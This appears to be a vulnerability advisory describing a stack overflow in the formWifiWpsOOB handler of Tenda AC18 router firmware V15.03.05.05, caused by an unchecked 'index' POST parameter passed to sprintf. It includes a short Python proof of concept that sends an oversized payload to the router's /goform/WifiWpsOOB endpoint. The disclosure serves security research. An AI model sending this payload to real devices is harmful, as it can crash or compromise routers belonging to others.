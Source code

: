 ## Overview

- The device's official website: https://www.tenda.com.cn/product/overview/AC18.html

- Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## Affected version

V15.03.05.05

## Vulnerability details

The Tenda AC18 V15.03.05.05 firmware has a stack overflow vulnerability in the `formWifiWpsOOB` function. The `nptr` variable receives the `index` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `index` can trigger this security vulnerability.

![image-20240306172913194](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172913194.png)

![image-20240306172847771](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172847771.png)

![image-20240306172902301](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172902301.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/WifiWpsOOB"
payload = b"a"*2000

data = {"index": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240306172830908](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240306172830908.png)
